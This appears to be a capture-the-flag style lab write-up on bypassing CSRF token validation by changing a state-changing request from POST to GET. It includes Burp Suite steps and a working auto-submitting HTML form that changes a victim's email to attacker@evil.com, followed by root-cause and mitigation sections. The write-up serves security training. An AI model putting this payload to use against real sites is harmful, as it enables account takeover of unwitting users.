



# Bypassing CSRF Protection via HTTP Request Method Modification

## Lab Metadata

**Challenge Name:** CSRF where token validation depends on request method  
**Classification:** Cross-Site Request Forgery (CSRF)  
**Skill Level:** Practitioner  
**Status:** Resolved  

---

## Objective

While the application implements a CSRF token to safeguard the email update mechanism, this validation is restricted to certain HTTP methods. The goal is to bypass this validation logic and modify the victim's registered email using an exploit hosted on the delivery server.

---

## Vulnerability Overview

The web application validates CSRF tokens strictly for POST requests, but fails to enforce token verification when the client changes the HTTP method to GET. This inconsistency enables attackers to build an exploit page that issues a GET request to update the user's email address, bypassing the token check entirely.

---

## Exploitation Walkthrough

### Step 1: Capturing the Profile Update Request

1. Log in with the provided credentials:

```text
Username: wiener
Password: peter
```

2. Navigate to the account options.
3. Perform an email change.
4. Intercept this transaction using Burp Suite.

### Screenshot



---

### Step 2: Testing Token Enforcement

1. Forward the captured POST request to Burp Repeater.
2. Modify or corrupt the value of the `csrf` parameter.

Example:

```http
POST /my-account/change-email HTTP/2

csrf=invalidtoken
email=test@example.com
```

3. Transmit the request.
4. Verify that the backend rejects the request.

### Screenshot



---

### Step 3: Changing the HTTP Method

1. In Burp Repeater, switch the request method from POST to GET.
2. Construct the query parameters as follows:

```http
GET /my-account/change-email?email=attacker@evil.com HTTP/2
```

3. Delete the `csrf` parameter from the request query string.
4. Submit the GET request.
5. Confirm that the server updates the email address successfully despite the missing token.

### Screenshot



---

### Step 4: Crafting the CSRF Exploit Payload

Host this HTML payload on the exploit server:

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>

</body>
</html>
```

### Screenshot


---

### Step 5: Executing the Attack

1. Save the exploit on the exploit server.
2. Deliver the exploit link to the target user.
3. The victim's browser loads the link and automatically triggers the GET request.
4. Verify the email has changed and the lab is resolved.

### Screenshot


---

## Impact Assessment

An attacker can bypass CSRF defenses entirely by changing the HTTP verb to one that the application fails to validate. Successful exploitation allows unauthorized modifications to sensitive user account details under the context of the victim's session.

---

## Root Cause Analysis

The web application restricts its CSRF token validation logic to incoming POST requests, but exposes the same state-changing functionality to incoming GET requests without token verification. This inconsistent route handling defeats the CSRF defense mechanism.

---

## Mitigation and Remediation

1. Enforce strict CSRF token validation on all state-changing endpoints.
2. Avoid handling state changes or sensitive operations via GET requests.
3. Verify CSRF tokens regardless of the HTTP method used to access the route.
4. Implement SameSite cookie attributes.
5. Follow secure coding standards: ensure GET requests remain idempotent and do not modify database state.

---

## Summary

This lab demonstrates how incomplete CSRF defenses can be bypassed by changing the HTTP method. By converting a POST request into an unprotected GET request, an attacker can successfully perform unauthorized actions on behalf of authenticated users.
